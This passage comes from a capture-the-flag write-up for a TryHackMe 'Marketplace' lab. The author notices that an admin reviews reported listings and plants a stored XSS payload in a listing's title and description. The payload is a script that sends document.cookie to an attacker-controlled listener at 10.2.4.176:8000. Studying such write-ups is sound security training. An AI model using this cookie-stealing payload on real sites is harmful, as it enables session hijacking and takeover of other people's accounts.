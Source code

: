 One interesting thing you can do is report a listing. So I tried that. When you do that you are taken to a page saying a admin will evaluate the report

![image6.png](https://raw.githubusercontent.com/BeastieNate5/CTF-Writeups/refs/heads/main/THM/Marketplace/images/image6.png)

If you wait a bit longer you get this message

![image7.png](https://raw.githubusercontent.com/BeastieNate5/CTF-Writeups/refs/heads/main/THM/Marketplace/images/image7.png)

So admin visits the listing page. So I thought a XSS attack would perfect so I could steal a admin's login token. I went back to the page where you make a listing and put my XSS payload in the listing's title and description just be extra sure

My payload is the following
```html
<script>fetch("http://10.2.4.176:8000/" + document.cookie)</script>
```